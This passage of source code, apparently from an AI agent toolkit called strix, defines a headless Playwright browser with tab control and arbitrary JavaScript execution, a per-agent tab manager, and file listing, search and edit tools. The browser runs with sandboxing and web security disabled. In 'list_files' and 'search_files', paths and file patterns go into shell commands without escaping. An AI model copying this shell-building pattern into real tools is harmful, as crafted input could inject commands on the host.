MAX_CONSOLE_LOGS_COUNT = 200
MAX_JS_RESULT_LENGTH = 5_000


class _BrowserState:
    """Singleton state for the shared browser instance."""

    lock = threading.Lock()
    event_loop: asyncio.AbstractEventLoop | None = None
    event_loop_thread: threading.Thread | None = None
    playwright: Playwright | None = None
    browser: Browser | None = None


_state = _BrowserState()


def _ensure_event_loop() -> None:
    if _state.event_loop is not None:
        return

    def run_loop() -> None:
        _state.event_loop = asyncio.new_event_loop()
        asyncio.set_event_loop(_state.event_loop)
        _state.event_loop.run_forever()

    _state.event_loop_thread = threading.Thread(target=run_loop, daemon=True)
    _state.event_loop_thread.start()

    while _state.event_loop is None:
        threading.Event().wait(0.01)


async def _create_browser() -> Browser:
    if _state.browser is not None and _state.browser.is_connected():
        return _state.browser

    if _state.browser is not None:
        with contextlib.suppress(Exception):
            await _state.browser.close()
        _state.browser = None
    if _state.playwright is not None:
        with contextlib.suppress(Exception):
            await _state.playwright.stop()
        _state.playwright = None

    _state.playwright = await async_playwright().start()
    _state.browser = await _state.playwright.chromium.launch(
        headless=True,
        args=[
            "--no-sandbox",
            "--disable-dev-shm-usage",
            "--disable-gpu",
            "--disable-web-security",
        ],
    )
    return _state.browser


def _get_browser() -> tuple[asyncio.AbstractEventLoop, Browser]:
    with _state.lock:
        _ensure_event_loop()
        assert _state.event_loop is not None

        if _state.browser is None or not _state.browser.is_connected():
            future = asyncio.run_coroutine_threadsafe(_create_browser(), _state.event_loop)
            future.result(timeout=30)

        assert _state.browser is not None
        return _state.event_loop, _state.browser


class BrowserInstance:
    def __init__(self) -> None:
        self.is_running = True
        self._execution_lock = threading.Lock()

        self._loop: asyncio.AbstractEventLoop | None = None
        self._browser: Browser | None = None

        self.context: BrowserContext | None = None
        self.pages: dict[str, Page] = {}
        self.current_page_id: str | None = None
        self._next_tab_id = 1

        self.console_logs: dict[str, list[dict[str, Any]]] = {}

    def _run_async(self, coro: Any) -> dict[str, Any]:
        if not self._loop or not self.is_running:
            raise RuntimeError("Browser instance is not running")

        future = asyncio.run_coroutine_threadsafe(coro, self._loop)
        return cast("dict[str, Any]", future.result(timeout=30))  # 30 second timeout

    async def _setup_console_logging(self, page: Page, tab_id: str) -> None:
        self.console_logs[tab_id] = []

        def handle_console(msg: Any) -> None:
            text = msg.text
            if len(text) > MAX_INDIVIDUAL_LOG_LENGTH:
                text = text[:MAX_INDIVIDUAL_LOG_LENGTH] + "... [TRUNCATED]"

            log_entry = {
                "type": msg.type,
                "text": text,
                "location": msg.location,
                "timestamp": asyncio.get_event_loop().time(),
            }

            self.console_logs[tab_id].append(log_entry)

            if len(self.console_logs[tab_id]) > MAX_CONSOLE_LOGS_COUNT:
                self.console_logs[tab_id] = self.console_logs[tab_id][-MAX_CONSOLE_LOGS_COUNT:]

        page.on("console", handle_console)

    async def _create_context(self, url: str | None = None) -> dict[str, Any]:
        assert self._browser is not None

        self.context = await self._browser.new_context(
            viewport={"width": 1280, "height": 720},
            user_agent=(
                "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 "
                "(KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36"
            ),
        )

        page = await self.context.new_page()
        tab_id = f"tab_{self._next_tab_id}"
        self._next_tab_id += 1
        self.pages[tab_id] = page
        self.current_page_id = tab_id

        await self._setup_console_logging(page, tab_id)

        if url:
            await page.goto(url, wait_until="domcontentloaded")

        return await self._get_page_state(tab_id)

    async def _get_page_state(self, tab_id: str | None = None) -> dict[str, Any]:
        if not tab_id:
            tab_id = self.current_page_id

        if not tab_id or tab_id not in self.pages:
            raise ValueError(f"Tab '{tab_id}' not found")

        page = self.pages[tab_id]

        await asyncio.sleep(2)

        screenshot_bytes = await page.screenshot(type="png", full_page=False)
        screenshot_b64 = base64.b64encode(screenshot_bytes).decode("utf-8")

        url = page.url
        title = await page.title()
        viewport = page.viewport_size

        all_tabs = {}
        for tid, tab_page in self.pages.items():
            all_tabs[tid] = {
                "url": tab_page.url,
                "title": await tab_page.title() if not tab_page.is_closed() else "Closed",
            }

        return {
            "screenshot": screenshot_b64,
            "url": url,
            "title": title,
            "viewport": viewport,
            "tab_id": tab_id,
            "all_tabs": all_tabs,
        }

    def launch(self, url: str | None = None) -> dict[str, Any]:
        with self._execution_lock:
            if self.context is not None:
                raise ValueError("Browser is already launched")

            self._loop, self._browser = _get_browser()
            return self._run_async(self._create_context(url))

    def goto(self, url: str, tab_id: str | None = None) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._goto(url, tab_id))

    async def _goto(self, url: str, tab_id: str | None = None) -> dict[str, Any]:
        if not tab_id:
            tab_id = self.current_page_id

        if not tab_id or tab_id not in self.pages:
            raise ValueError(f"Tab '{tab_id}' not found")

        page = self.pages[tab_id]
        await page.goto(url, wait_until="domcontentloaded")

        return await self._get_page_state(tab_id)

    def click(self, coordinate: str, tab_id: str | None = None) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._click(coordinate, tab_id))

    async def _click(self, coordinate: str, tab_id: str | None = None) -> dict[str, Any]:
        if not tab_id:
            tab_id = self.current_page_id

        if not tab_id or tab_id not in self.pages:
            raise ValueError(f"Tab '{tab_id}' not found")

        try:
            x, y = map(int, coordinate.split(","))
        except ValueError as e:
            raise ValueError(f"Invalid coordinate format: {coordinate}. Use 'x,y'") from e

        page = self.pages[tab_id]
        await page.mouse.click(x, y)

        return await self._get_page_state(tab_id)

    def type_text(self, text: str, tab_id: str | None = None) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._type_text(text, tab_id))

    async def _type_text(self, text: str, tab_id: str | None = None) -> dict[str, Any]:
        if not tab_id:
            tab_id = self.current_page_id

        if not tab_id or tab_id not in self.pages:
            raise ValueError(f"Tab '{tab_id}' not found")

        page = self.pages[tab_id]
        await page.keyboard.type(text)

        return await self._get_page_state(tab_id)

    def scroll(self, direction: str, tab_id: str | None = None) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._scroll(direction, tab_id))

    async def _scroll(self, direction: str, tab_id: str | None = None) -> dict[str, Any]:
        if not tab_id:
            tab_id = self.current_page_id

        if not tab_id or tab_id not in self.pages:
            raise ValueError(f"Tab '{tab_id}' not found")

        page = self.pages[tab_id]

        if direction == "down":
            await page.keyboard.press("PageDown")
        elif direction == "up":
            await page.keyboard.press("PageUp")
        else:
            raise ValueError(f"Invalid scroll direction: {direction}")

        return await self._get_page_state(tab_id)

    def back(self, tab_id: str | None = None) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._back(tab_id))

    async def _back(self, tab_id: str | None = None) -> dict[str, Any]:
        if not tab_id:
            tab_id = self.current_page_id

        if not tab_id or tab_id not in self.pages:
            raise ValueError(f"Tab '{tab_id}' not found")

        page = self.pages[tab_id]
        await page.go_back(wait_until="domcontentloaded")

        return await self._get_page_state(tab_id)

    def forward(self, tab_id: str | None = None) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._forward(tab_id))

    async def _forward(self, tab_id: str | None = None) -> dict[str, Any]:
        if not tab_id:
            tab_id = self.current_page_id

        if not tab_id or tab_id not in self.pages:
            raise ValueError(f"Tab '{tab_id}' not found")

        page = self.pages[tab_id]
        await page.go_forward(wait_until="domcontentloaded")

        return await self._get_page_state(tab_id)

    def new_tab(self, url: str | None = None) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._new_tab(url))

    async def _new_tab(self, url: str | None = None) -> dict[str, Any]:
        if not self.context:
            raise ValueError("Browser not launched")

        page = await self.context.new_page()
        tab_id = f"tab_{self._next_tab_id}"
        self._next_tab_id += 1
        self.pages[tab_id] = page
        self.current_page_id = tab_id

        await self._setup_console_logging(page, tab_id)

        if url:
            await page.goto(url, wait_until="domcontentloaded")

        return await self._get_page_state(tab_id)

    def switch_tab(self, tab_id: str) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._switch_tab(tab_id))

    async def _switch_tab(self, tab_id: str) -> dict[str, Any]:
        if tab_id not in self.pages:
            raise ValueError(f"Tab '{tab_id}' not found")

        self.current_page_id = tab_id
        return await self._get_page_state(tab_id)

    def close_tab(self, tab_id: str) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._close_tab(tab_id))

    async def _close_tab(self, tab_id: str) -> dict[str, Any]:
        if tab_id not in self.pages:
            raise ValueError(f"Tab '{tab_id}' not found")

        if len(self.pages) == 1:
            raise ValueError("Cannot close the last tab")

        page = self.pages.pop(tab_id)
        await page.close()

        if tab_id in self.console_logs:
            del self.console_logs[tab_id]

        if self.current_page_id == tab_id:
            self.current_page_id = next(iter(self.pages.keys()))

        return await self._get_page_state(self.current_page_id)

    def wait(self, duration: float, tab_id: str | None = None) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._wait(duration, tab_id))

    async def _wait(self, duration: float, tab_id: str | None = None) -> dict[str, Any]:
        await asyncio.sleep(duration)
        return await self._get_page_state(tab_id)

    def execute_js(self, js_code: str, tab_id: str | None = None) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._execute_js(js_code, tab_id))

    async def _execute_js(self, js_code: str, tab_id: str | None = None) -> dict[str, Any]:
        if not tab_id:
            tab_id = self.current_page_id

        if not tab_id or tab_id not in self.pages:
            raise ValueError(f"Tab '{tab_id}' not found")

        page = self.pages[tab_id]

        try:
            result = await page.evaluate(js_code)
        except Exception as e:  # noqa: BLE001
            result = {
                "error": True,
                "error_type": type(e).__name__,
                "error_message": str(e),
            }

        result_str = str(result)
        if len(result_str) > MAX_JS_RESULT_LENGTH:
            result = result_str[:MAX_JS_RESULT_LENGTH] + "... [JS result truncated at 5k chars]"

        state = await self._get_page_state(tab_id)
        state["js_result"] = result
        return state

    def get_console_logs(self, tab_id: str | None = None, clear: bool = False) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._get_console_logs(tab_id, clear))

    async def _get_console_logs(
        self, tab_id: str | None = None, clear: bool = False
    ) -> dict[str, Any]:
        if not tab_id:
            tab_id = self.current_page_id

        if not tab_id or tab_id not in self.pages:
            raise ValueError(f"Tab '{tab_id}' not found")

        logs = self.console_logs.get(tab_id, [])

        total_length = sum(len(str(log)) for log in logs)
        if total_length > MAX_CONSOLE_LOG_LENGTH:
            truncated_logs: list[dict[str, Any]] = []
            current_length = 0

            for log in reversed(logs):
                log_length = len(str(log))
                if current_length + log_length <= MAX_CONSOLE_LOG_LENGTH:
                    truncated_logs.insert(0, log)
                    current_length += log_length
                else:
                    break

            if len(truncated_logs) < len(logs):
                truncation_notice = {
                    "type": "info",
                    "text": (
                        f"[TRUNCATED: {len(logs) - len(truncated_logs)} older logs "
                        f"removed to stay within {MAX_CONSOLE_LOG_LENGTH} character limit]"
                    ),
                    "location": {},
                    "timestamp": 0,
                }
                truncated_logs.insert(0, truncation_notice)

            logs = truncated_logs

        if clear:
            self.console_logs[tab_id] = []

        state = await self._get_page_state(tab_id)
        state["console_logs"] = logs
        return state

    def view_source(self, tab_id: str | None = None) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._view_source(tab_id))

    async def _view_source(self, tab_id: str | None = None) -> dict[str, Any]:
        if not tab_id:
            tab_id = self.current_page_id

        if not tab_id or tab_id not in self.pages:
            raise ValueError(f"Tab '{tab_id}' not found")

        page = self.pages[tab_id]
        source = await page.content()
        original_length = len(source)

        if original_length > MAX_PAGE_SOURCE_LENGTH:
            truncation_message = (
                f"\n\n<!-- [TRUNCATED: {original_length - MAX_PAGE_SOURCE_LENGTH} "
                "characters removed] -->\n\n"
            )
            available_space = MAX_PAGE_SOURCE_LENGTH - len(truncation_message)
            truncate_point = available_space // 2

            source = source[:truncate_point] + truncation_message + source[-truncate_point:]

        state = await self._get_page_state(tab_id)
        state["page_source"] = source
        return state

    def double_click(self, coordinate: str, tab_id: str | None = None) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._double_click(coordinate, tab_id))

    async def _double_click(self, coordinate: str, tab_id: str | None = None) -> dict[str, Any]:
        if not tab_id:
            tab_id = self.current_page_id

        if not tab_id or tab_id not in self.pages:
            raise ValueError(f"Tab '{tab_id}' not found")

        try:
            x, y = map(int, coordinate.split(","))
        except ValueError as e:
            raise ValueError(f"Invalid coordinate format: {coordinate}. Use 'x,y'") from e

        page = self.pages[tab_id]
        await page.mouse.dblclick(x, y)

        return await self._get_page_state(tab_id)

    def hover(self, coordinate: str, tab_id: str | None = None) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._hover(coordinate, tab_id))

    async def _hover(self, coordinate: str, tab_id: str | None = None) -> dict[str, Any]:
        if not tab_id:
            tab_id = self.current_page_id

        if not tab_id or tab_id not in self.pages:
            raise ValueError(f"Tab '{tab_id}' not found")

        try:
            x, y = map(int, coordinate.split(","))
        except ValueError as e:
            raise ValueError(f"Invalid coordinate format: {coordinate}. Use 'x,y'") from e

        page = self.pages[tab_id]
        await page.mouse.move(x, y)

        return await self._get_page_state(tab_id)

    def press_key(self, key: str, tab_id: str | None = None) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._press_key(key, tab_id))

    async def _press_key(self, key: str, tab_id: str | None = None) -> dict[str, Any]:
        if not tab_id:
            tab_id = self.current_page_id

        if not tab_id or tab_id not in self.pages:
            raise ValueError(f"Tab '{tab_id}' not found")

        page = self.pages[tab_id]
        await page.keyboard.press(key)

        return await self._get_page_state(tab_id)

    def save_pdf(self, file_path: str, tab_id: str | None = None) -> dict[str, Any]:
        with self._execution_lock:
            return self._run_async(self._save_pdf(file_path, tab_id))

    async def _save_pdf(self, file_path: str, tab_id: str | None = None) -> dict[str, Any]:
        if not tab_id:
            tab_id = self.current_page_id

        if not tab_id or tab_id not in self.pages:
            raise ValueError(f"Tab '{tab_id}' not found")

        if not Path(file_path).is_absolute():
            file_path = str(Path("/workspace") / file_path)

        page = self.pages[tab_id]
        await page.pdf(path=file_path)

        state = await self._get_page_state(tab_id)
        state["pdf_saved"] = file_path
        return state

    def close(self) -> None:
        with self._execution_lock:
            self.is_running = False
            if self._loop and self.context:
                future = asyncio.run_coroutine_threadsafe(self._close_context(), self._loop)
                with contextlib.suppress(Exception):
                    future.result(timeout=5)

            self.pages.clear()
            self.console_logs.clear()
            self.current_page_id = None
            self.context = None

    async def _close_context(self) -> None:
        try:
            if self.context:
                await self.context.close()
        except (OSError, RuntimeError) as e:
            logger.warning(f"Error closing context: {e}")

    def is_alive(self) -> bool:
        return (
            self.is_running
            and self.context is not None
            and self._browser is not None
            and self._browser.is_connected()
        )
```

## File: `strix/tools/browser/tab_manager.py`
```python
import atexit
import contextlib
import threading
from typing import Any

from strix.tools.context import get_current_agent_id

from .browser_instance import BrowserInstance


class BrowserTabManager:
    def __init__(self) -> None:
        self._browsers_by_agent: dict[str, BrowserInstance] = {}
        self._lock = threading.Lock()

        self._register_cleanup_handlers()

    def _get_agent_browser(self) -> BrowserInstance | None:
        agent_id = get_current_agent_id()
        with self._lock:
            return self._browsers_by_agent.get(agent_id)

    def _set_agent_browser(self, browser: BrowserInstance | None) -> None:
        agent_id = get_current_agent_id()
        with self._lock:
            if browser is None:
                self._browsers_by_agent.pop(agent_id, None)
            else:
                self._browsers_by_agent[agent_id] = browser

    def launch_browser(self, url: str | None = None) -> dict[str, Any]:
        with self._lock:
            agent_id = get_current_agent_id()
            if agent_id in self._browsers_by_agent:
                raise ValueError("Browser is already launched")

            try:
                browser = BrowserInstance()
                result = browser.launch(url)
                self._browsers_by_agent[agent_id] = browser
                result["message"] = "Browser launched successfully"
            except (OSError, ValueError, RuntimeError) as e:
                raise RuntimeError(f"Failed to launch browser: {e}") from e
            else:
                return result

    def goto_url(self, url: str, tab_id: str | None = None) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.goto(url, tab_id)
            result["message"] = f"Navigated to {url}"
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to navigate to URL: {e}") from e
        else:
            return result

    def click(self, coordinate: str, tab_id: str | None = None) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.click(coordinate, tab_id)
            result["message"] = f"Clicked at {coordinate}"
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to click: {e}") from e
        else:
            return result

    def type_text(self, text: str, tab_id: str | None = None) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.type_text(text, tab_id)
            result["message"] = f"Typed text: {text[:50]}{'...' if len(text) > 50 else ''}"
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to type text: {e}") from e
        else:
            return result

    def scroll(self, direction: str, tab_id: str | None = None) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.scroll(direction, tab_id)
            result["message"] = f"Scrolled {direction}"
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to scroll: {e}") from e
        else:
            return result

    def back(self, tab_id: str | None = None) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.back(tab_id)
            result["message"] = "Navigated back"
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to go back: {e}") from e
        else:
            return result

    def forward(self, tab_id: str | None = None) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.forward(tab_id)
            result["message"] = "Navigated forward"
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to go forward: {e}") from e
        else:
            return result

    def new_tab(self, url: str | None = None) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.new_tab(url)
            result["message"] = f"Created new tab {result.get('tab_id', '')}"
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to create new tab: {e}") from e
        else:
            return result

    def switch_tab(self, tab_id: str) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.switch_tab(tab_id)
            result["message"] = f"Switched to tab {tab_id}"
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to switch tab: {e}") from e
        else:
            return result

    def close_tab(self, tab_id: str) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.close_tab(tab_id)
            result["message"] = f"Closed tab {tab_id}"
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to close tab: {e}") from e
        else:
            return result

    def wait_browser(self, duration: float, tab_id: str | None = None) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.wait(duration, tab_id)
            result["message"] = f"Waited {duration}s"
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to wait: {e}") from e
        else:
            return result

    def execute_js(self, js_code: str, tab_id: str | None = None) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.execute_js(js_code, tab_id)
            result["message"] = "JavaScript executed successfully"
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to execute JavaScript: {e}") from e
        else:
            return result

    def double_click(self, coordinate: str, tab_id: str | None = None) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.double_click(coordinate, tab_id)
            result["message"] = f"Double clicked at {coordinate}"
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to double click: {e}") from e
        else:
            return result

    def hover(self, coordinate: str, tab_id: str | None = None) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.hover(coordinate, tab_id)
            result["message"] = f"Hovered at {coordinate}"
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to hover: {e}") from e
        else:
            return result

    def press_key(self, key: str, tab_id: str | None = None) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.press_key(key, tab_id)
            result["message"] = f"Pressed key {key}"
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to press key: {e}") from e
        else:
            return result

    def save_pdf(self, file_path: str, tab_id: str | None = None) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.save_pdf(file_path, tab_id)
            result["message"] = f"Page saved as PDF: {file_path}"
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to save PDF: {e}") from e
        else:
            return result

    def get_console_logs(self, tab_id: str | None = None, clear: bool = False) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.get_console_logs(tab_id, clear)
            action_text = "cleared and retrieved" if clear else "retrieved"

            logs = result.get("console_logs", [])
            truncated = any(log.get("text", "").startswith("[TRUNCATED:") for log in logs)
            truncated_text = " (truncated)" if truncated else ""

            result["message"] = (
                f"Console logs {action_text} for tab "
                f"{result.get('tab_id', 'current')}{truncated_text}"
            )
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to get console logs: {e}") from e
        else:
            return result

    def view_source(self, tab_id: str | None = None) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            raise ValueError("Browser not launched")

        try:
            result = browser.view_source(tab_id)
            result["message"] = "Page source retrieved"
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to get page source: {e}") from e
        else:
            return result

    def list_tabs(self) -> dict[str, Any]:
        browser = self._get_agent_browser()
        if browser is None:
            return {"tabs": {}, "total_count": 0, "current_tab": None}

        try:
            tab_info = {}
            for tid, tab_page in browser.pages.items():
                try:
                    tab_info[tid] = {
                        "url": tab_page.url,
                        "title": "Unknown" if tab_page.is_closed() else "Active",
                        "is_current": tid == browser.current_page_id,
                    }
                except (AttributeError, RuntimeError):
                    tab_info[tid] = {
                        "url": "Unknown",
                        "title": "Closed",
                        "is_current": False,
                    }

            return {
                "tabs": tab_info,
                "total_count": len(tab_info),
                "current_tab": browser.current_page_id,
            }
        except (OSError, ValueError, RuntimeError) as e:
            raise RuntimeError(f"Failed to list tabs: {e}") from e

    def close_browser(self) -> dict[str, Any]:
        agent_id = get_current_agent_id()
        with self._lock:
            browser = self._browsers_by_agent.pop(agent_id, None)
            if browser is None:
                raise ValueError("Browser not launched")

            try:
                browser.close()
            except (OSError, ValueError, RuntimeError) as e:
                raise RuntimeError(f"Failed to close browser: {e}") from e
            else:
                return {
                    "message": "Browser closed successfully",
                    "screenshot": "",
                    "is_running": False,
                }

    def cleanup_agent(self, agent_id: str) -> None:
        with self._lock:
            browser = self._browsers_by_agent.pop(agent_id, None)

        if browser:
            with contextlib.suppress(Exception):
                browser.close()

    def cleanup_dead_browser(self) -> None:
        with self._lock:
            dead_agents = []
            for agent_id, browser in self._browsers_by_agent.items():
                if not browser.is_alive():
                    dead_agents.append(agent_id)

            for agent_id in dead_agents:
                browser = self._browsers_by_agent.pop(agent_id)
                with contextlib.suppress(Exception):
                    browser.close()

    def close_all(self) -> None:
        with self._lock:
            browsers = list(self._browsers_by_agent.values())
            self._browsers_by_agent.clear()

        for browser in browsers:
            with contextlib.suppress(Exception):
                browser.close()

    def _register_cleanup_handlers(self) -> None:
        atexit.register(self.close_all)


_browser_tab_manager = BrowserTabManager()


def get_browser_tab_manager() -> BrowserTabManager:
    return _browser_tab_manager
```

## File: `strix/tools/browser/__init__.py`
```python
from .browser_actions import browser_action


__all__ = ["browser_action"]
```

## File: `strix/tools/file_edit/file_edit_actions.py`
```python
import json
import re
from pathlib import Path
from typing import Any, cast

from strix.tools.registry import register_tool


def _parse_file_editor_output(output: str) -> dict[str, Any]:
    try:
        pattern = r"<oh_aci_output_[^>]+>\n(.*?)\n</oh_aci_output_[^>]+>"
        match = re.search(pattern, output, re.DOTALL)

        if match:
            json_str = match.group(1)
            data = json.loads(json_str)
            return cast("dict[str, Any]", data)
        return {"output": output, "error": None}
    except (json.JSONDecodeError, AttributeError):
        return {"output": output, "error": None}


@register_tool
def str_replace_editor(
    command: str,
    path: str,
    file_text: str | None = None,
    view_range: list[int] | None = None,
    old_str: str | None = None,
    new_str: str | None = None,
    insert_line: int | None = None,
) -> dict[str, Any]:
    from openhands_aci import file_editor

    try:
        path_obj = Path(path)
        if not path_obj.is_absolute():
            path = str(Path("/workspace") / path_obj)

        result = file_editor(
            command=command,
            path=path,
            file_text=file_text,
            view_range=view_range,
            old_str=old_str,
            new_str=new_str,
            insert_line=insert_line,
        )

        parsed = _parse_file_editor_output(result)

        if parsed.get("error"):
            return {"error": parsed["error"]}

        return {"content": parsed.get("output", result)}

    except (OSError, ValueError) as e:
        return {"error": f"Error in {command} operation: {e!s}"}


@register_tool
def list_files(
    path: str,
    recursive: bool = False,
) -> dict[str, Any]:
    from openhands_aci.utils.shell import run_shell_cmd

    try:
        path_obj = Path(path)
        if not path_obj.is_absolute():
            path = str(Path("/workspace") / path_obj)
            path_obj = Path(path)

        if not path_obj.exists():
            return {"error": f"Directory not found: {path}"}

        if not path_obj.is_dir():
            return {"error": f"Path is not a directory: {path}"}

        cmd = f"find '{path}' -type f -o -type d | head -500" if recursive else f"ls -1a '{path}'"

        exit_code, stdout, stderr = run_shell_cmd(cmd)

        if exit_code != 0:
            return {"error": f"Error listing directory: {stderr}"}

        items = stdout.strip().split("\n") if stdout.strip() else []

        files = []
        dirs = []

        for item in items:
            item_path = item if recursive else str(Path(path) / item)
            item_path_obj = Path(item_path)

            if item_path_obj.is_file():
                files.append(item)
            elif item_path_obj.is_dir():
                dirs.append(item)

        return {
            "files": sorted(files),
            "directories": sorted(dirs),
            "total_files": len(files),
            "total_dirs": len(dirs),
            "path": path,
            "recursive": recursive,
        }

    except (OSError, ValueError) as e:
        return {"error": f"Error listing directory: {e!s}"}


@register_tool
def search_files(
    path: str,
    regex: str,
    file_pattern: str = "*",
) -> dict[str, Any]:
    from openhands_aci.utils.shell import run_shell_cmd

    try:
        path_obj = Path(path)
        if not path_obj.is_absolute():
            path = str(Path("/workspace") / path_obj)

        if not Path(path).exists():
            return {"error": f"Directory not found: {path}"}

        escaped_regex = regex.replace("'", "'\"'\"'")

        cmd = f"rg --line-number --glob '{file_pattern}' '{escaped_regex}' '{path}'"

        exit_code, stdout, stderr = run_shell_cmd(cmd)

        if exit_code not in {0, 1}:
            return {"error": f"Error searching files: {stderr}"}
        return {"output": stdout if stdout else "No matches found"}

    except (OSError, ValueError) as e:
        return {"error": f"Error searching files: {e!s}"}


# ruff: noqa: TRY300
```

## File: `strix/tools/file_edit/file_edit_actions_schema.xml`
```xml
<tools>
  <tool name="list_files">
    <description>List files and directories within the specified directory.</description>
    <parameters>
      <parameter name="path" type="string" required="true">
        <description>Directory path to list</description>
      </parameter>
      <parameter name="recursive" type="boolean" required="false">
        <description>Whether to list files recursively</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - files: List of files and directories - total_files: Total number of files found - total_dirs: Total number of directories found</description>
    </returns>
    <notes>
  - Lists contents alphabetically
  - Returns maximum 500 results to avoid overwhelming output
    </notes>
    <examples>
  # List directory contents
  <function=list_files>
  <parameter=path>/home/user/project/src</parameter>
  </function>

  # Recursive listing
  <function=list_files>
  <parameter=path>/home/user/project/src</parameter>
  <parameter=recursive>true</parameter>
  </function>
    </examples>
  </tool>
  <tool name="search_files">
    <description>Perform a regex search across files in a directory.</description>
    <parameters>
      <parameter name="path" type="string" required="true">
        <description>Directory path to search</description>
      </parameter>
      <parameter name="regex" type="string" required="true">
        <description>Regular expression pattern to search for</description>
      </parameter>
      <parameter name="file_pattern" type="string" required="false">
        <description>File pattern to filter (e.g., "*.py", "*.js")</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - output: The search results as a string</description>
    </returns>
    <notes>
  - Searches recursively through subdirectories
  - Uses ripgrep for fast searching
    </notes>
    <examples>
  # Search Python files for a pattern
  <function=search_files>
  <parameter=path>/home/user/project/src</parameter>
  <parameter=regex>def\s+process_data</parameter>
  <parameter=file_pattern>*.py</parameter>
  </function>
    </examples>
  </tool>
  <tool name="str_replace_editor">
    <description>A text editor tool for viewing, creating and editing files.</description>
    <parameters>
      <parameter name="command" type="string" required="true">
        <description>Editor command to execute</description>
      </parameter>
      <parameter name="path" type="string" required="true">
        <description>Path to the file to edit</description>
      </parameter>
      <parameter name="file_text" type="string" required="false">
        <description>Required parameter of create command, with the content of the file to be created</description>
      </parameter>
      <parameter name="view_range" type="string" required="false">
        <description>Optional parameter of view command when path points to a file. If none is given, the full file is shown. If provided, the file will be shown in the indicated line number range, e.g. [11, 12] will show lines 11 and 12. Indexing at 1 to start. Setting [start_line, -1] shows all lines from start_line to the end of the file</description>
      </parameter>
      <parameter name="old_str" type="string" required="false">
        <description>Required parameter of str_replace command containing the string in path to replace</description>
      </parameter>
      <parameter name="new_str" type="string" required="false">
        <description>Optional parameter of str_replace command containing the new string (if not given, no string will be added). Required parameter of insert command containing the string to insert</description>
      </parameter>
      <parameter name="insert_line" type="string" required="false">
        <description>Required parameter of insert command. The new_str will be inserted AFTER the line insert_line of path</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing the result of the operation</description>
    </returns>
    <notes>
  Command details:
  - view: Show file contents, optionally with line range
  - create: Create a new file with given content
  - str_replace: Replace old_str with new_str in file
